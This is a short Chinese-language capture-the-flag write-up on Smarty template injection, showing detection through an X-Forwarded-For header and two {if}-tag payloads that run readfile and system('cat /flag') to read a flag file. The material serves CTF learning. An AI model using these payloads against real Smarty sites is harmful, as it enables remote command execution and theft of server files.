 ```yaml
---
layout: '../../layouts/MarkdownPost.astro'  ## 布局文件
title: 'WEB-smarty模板注入'
pubDate: 2022-010-19
description: '刷题ing'
author: 'Snark'
cover:
    url: 'https://th.wallhaven.cc/small/l3/l3xk6q.jpg'  ## 宽屏图片
    square: ''  ## 方形图片
    alt: 'cover'
tags: ["CTF", "WEB", "刷题"]
theme: 'dark'
featured: true
---
```


# WP

## 解题思路

打开容器后，是个这样的界面，注意最下面的Build With Smarty! , 猜测是smarty模板注入。

![](https://i.328888.xyz/2023/03/17/L8hXE.png)

测试模板注入，用bp抓包，然后插入X-Forwarded-For:{$smarty.version}

![](https://i.328888.xyz/2023/03/17/L8d0Q.png)

回显，版本为3.1.30，说明是smarty模板注入
同时回显中也可发现，php版本是7.3.5，那么这样的话<script language="php">phpinfo();</script> ，就无法使用
同时smarty的版本是3，所以{php}{/php}也无法使用。
但是smarty的if标签也可以执行php代码
payload1:

```
{if readfile('/flag')}{/if}
```

payload2:

```
{if system('cat /flag')}{/if}
```
